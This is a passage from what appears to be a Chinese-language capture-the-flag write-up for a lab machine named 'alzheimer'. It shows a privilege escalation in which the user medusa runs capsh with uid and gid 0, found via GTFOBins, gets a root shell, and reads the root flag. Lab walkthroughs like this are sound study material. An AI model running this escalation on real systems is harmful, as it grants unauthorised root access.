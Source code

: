 找一下利用方法：https://gtfobins.github.io/gtfobins/capsh/

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121621571.png" alt="image-20240412161957411" style="zoom:50%;" />

尝试利用：

```bash
medusa@alzheimer:~$ capsh --gid=0 --uid=0 --
-bash: capsh: command not found
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(medusa)
root@alzheimer:~# cd /root
root@alzheimer:/root# ls -la
total 24
drwx------  3 root root 4096 Oct  3  2020 .
drwxr-xr-x 18 root root 4096 Oct  2  2020 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Oct  2  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root   16 Oct  3  2020 root.txt
root@alzheimer:/root# cat root.txt 
HMVlovememories
```

拿到flag！！！lol！！！

